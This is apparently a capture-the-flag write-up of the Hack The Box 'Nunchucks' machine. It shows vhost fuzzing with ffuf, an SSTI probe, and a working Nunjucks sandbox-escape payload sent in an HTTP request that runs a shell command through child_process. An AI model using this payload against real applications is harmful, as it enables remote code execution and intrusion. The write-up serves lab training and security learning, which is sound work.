 We can see a DNS name of `nunchucks.htb` so lets add it to our `/etc/hosts` file

# nunchucks.htb 

Navigating to the website we can see a signup page but registration is currently closed.

I was not able to fuzz any other page or directory out of this

# Fuzzing store.nunchucks.htb
There might be another VHOST on this box so I used ffuf to see if I could enumerate anything. I was able to find `store.nunchucks.htb`, this makes sense because at the bottom of nunchucks.htb there was a link that said "Store: Coming soon!"
```
┌──(root💀kali)-[~/htb/nunchucks]
└─# ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u https://nunchucks.htb -H "Host: FUZZ.nunchucks.htb" -fs 30589


store                   [Status: 200, Size: 4029, Words: 1053, Lines: 102]
```

I'll add `store.nunchucks.htb` to my `/etc/hosts`

Looking at the page there is not much besides a newsletter box. I tried to fuzz out any other page but this is it. 

I tried a Server-Side Template Injection test `{{7*7}}` and the server responded with `49`, it is vulnerable! After some googling, I found a website that had a payload I could use to get code execution. http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

Request
```
POST /api/submit HTTP/1.1
Host: store.nunchucks.htb
Cookie: _csrf=MneG7M2Q13X042U-mQUtAkIs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://store.nunchucks.htb/
Content-Type: application/json
Origin: https://store.nunchucks.htb
Content-Length: 121
Te: trailers
Connection: close

{
"email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}"
}

```
